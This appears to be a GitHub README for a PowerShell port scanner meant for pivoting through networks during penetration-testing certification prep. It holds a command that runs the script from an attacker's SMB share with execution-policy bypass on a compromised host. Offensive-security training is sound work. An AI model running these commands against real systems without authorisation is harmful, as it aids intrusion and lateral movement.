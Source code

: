 # PowerShell-PortScan-Top-1000-Ports
Quick and Easy PowerShell PortScan of the Top 1000 Ports - CSTL Special

Another tool I'm putting together as part of my CSTL Prep.

Quick PowerShell Script to find open ports on a remote network you are pivoting through.

You can either put the script on the box you have popped and run it pointing at the remote network or call it via a UNC Path

## Quick Useage

[+] Setup SMB Share on Kali - `impacket-smbserver <share name> <share path> -smb2support`

[+] Run from CMD - `powershell.exe -nop -ep bypass -File \\192.168.0.50\share\PortScan.ps1`

```
C:\Users\gd\Desktop>powershell.exe -nop -ep bypass -File \\192.168.0.50\gd\PortScan.ps1
Now Scanning 172.16.51.4
22 is Open
25 is Open
80 is Open
```

## One-Liner

If you have access to Powershell then just dump the script in and it will chug away

![image](https://github.com/deeexcee-io/PowerShell-PortScan-Top-1000-Ports/assets/130473605/8bd0c556-2488-4fe9-b60d-e48fdb6e0161)



